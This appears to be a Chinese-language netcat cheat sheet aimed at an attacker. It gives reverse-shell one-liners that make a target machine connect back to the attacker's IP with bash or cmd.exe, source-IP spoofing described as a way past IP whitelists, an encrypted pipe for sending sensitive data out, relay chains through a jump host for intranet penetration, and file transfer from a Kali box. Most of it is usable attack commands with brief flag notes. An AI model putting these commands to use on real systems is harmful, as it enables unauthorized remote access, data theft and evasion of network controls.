






# nc基础功能与命令(反向连接)
```
nc -lvp 4444
```
-l：监听模式
-v：显示详细输出（-vv为更详细模式）
-p：指定监听端口
​扩展参数：
-k：保持长连接（防止Shell意外断开）
-n：禁用DNS解析，直接使用IP地址

-------------------------------------------------------------------
```
nc <攻击机IP> 4444 -e /bin/bash  # Linux
nc.exe <攻击机IP> 4444 -e cmd.exe  # Windows
```
-e：指定要执行的程序（如Shell解释器）

```
nc -u <攻击机IP> 4444  # 目标机使用UDP协议连接
```
-u：启用UDP传输（默认TCP），适用于特殊网络环境

```
nc -d -lvp 4444  # 攻击机后台静默监听
```
-d：脱离终端后台运行（Windows适用）



# 高级参数解析

```
nc -g 192.168.1.254 目标IP 80
```
此命令通过网关192.168.1.254访问目标IP的80端口
-G <指针数>：
设置源路由指针位置，数值需为4的倍数（如4、8、12），用于复杂网络环境下的路由跳转

```
nc -s 伪造IP 目标IP 端口
```
伪造源IP地址发送数据包（需系统支持），常用于绕过IP白名单或模拟攻击：


```
nc -o traffic.log 目标IP 80
```
将传输的原始数据以十六进制格式**记录到文件，用于分析协议或取证


```
发送端加密
tar -czvf - 目录 | openssl aes-256-cbc -salt | nc -l 4444

接收端解密
nc 目标IP 4444 | openssl aes-256-cbc -d | tar -xzvf -
```
通过管道结合加密工具传输敏感数据


```
节点1（本地）→ 节点2（跳板）→ 目标服务器
nc -l 4444 | nc 跳板IP 5555
nc -l 5555 | nc 目标IP 80
```
此组合将本地4444端口的流量经跳板机转发至目标80端口，适用于内网穿透










# 传输文件(目标机接收)
```
kali:nc 目标机 4444 <1.txt
目标机:nc -lvnp 4444 >1.txt
```
